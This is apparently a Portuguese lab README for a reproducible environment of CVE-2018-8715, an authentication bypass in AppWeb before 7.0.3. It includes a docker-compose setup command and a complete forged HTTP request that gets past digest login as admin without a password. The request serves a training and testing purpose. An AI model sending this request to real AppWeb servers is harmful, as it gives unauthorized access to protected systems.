

# AppWeb Authentication Bypass vulnerability (CVE-2018-8715)

AppWeb é um servidor da Web incorporado baseado em um contrato GPL de código aberto que foi desenvolvido e mantido pela Embedthis Software LLC. Ele é escrito em C/C++ e pode ser executado em praticamente qualquer sistema operacional moderno. Obviamente, ele visa fornecer um contêiner de aplicativos da Web para dispositivos incorporados.

O AppWeb pode ser configurado para autenticação, que inclui os três métodos de autenticação a seguir:

- `basic`, autenticação básica HTTP tradicional
- `digest`, autenticação básica HTTP aprimorada. Neste modo, o Cookie será usado para autenticação em vez de `Authorization`.
- `form`, Autenticação de formulário baseada em HTML

Nas versões Appweb anteriores a 7.0.3, tem uma falha lógica relacionada à função authCondition em `http/httpLib.c`. Com uma solicitação HTTP forjada, é possível ignorar a autenticação para os tipos de login `form` e `digest`.

Link de referência:

- https://ssd-disclosure.com/index.php/archives/3676

## Ambiente de vulnerabilidade

Inicie um servidor Appweb 7.0.1 com autenticação `digest` executando o seguinte comando:

```
docker-compose up -d
```

Para acessar `http://your-ip:8080`, você precisa digitar a senha da sua conta.

## Explorando

O nome de usuário atual é `admin`, então você pode usar a seguinte solicitação para ignorar a autenticação:

```
GET / HTTP/1.1
Host: example.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Digest username=admin


```

Como você pode ver, como não passamos no campo de senha, ocorreu o erro do servidor com um `200 status code` e o cabeçalho de configuração da sessão:



A página pode ser acessada normalmente com este cabeçalho de sessão:


